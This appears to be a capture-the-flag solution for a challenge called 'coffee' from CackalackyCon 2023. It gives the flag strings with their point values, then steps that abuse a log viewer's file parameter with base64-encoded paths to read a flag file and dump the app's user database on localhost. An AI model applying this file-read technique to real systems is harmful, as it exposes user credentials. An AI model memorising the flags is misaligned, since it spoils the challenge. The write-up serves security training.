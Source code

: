 # Solution for coffee
### First seen: CackalackyCon 2023
---

## Flags:
`am0ngth3stars`
`cashrul3s3v3rythingar0undm3`
`Maz10dyn3`

## Points
300
225
350


1. Login using creds gained from cheerio
2. In the log viewer, grab the get param and change to http://127.0.0.1:3000/logs?file=L2hvbWUvYXBwdXNlci9mbGFnLnR4dA==
3. Navigate to http://127.0.0.1:3000/orders/3225.txt
4. Navigate to http://127.0.0.1:3000/logs?file=L2FwcC91c2Vycy5kYg== for the db dump

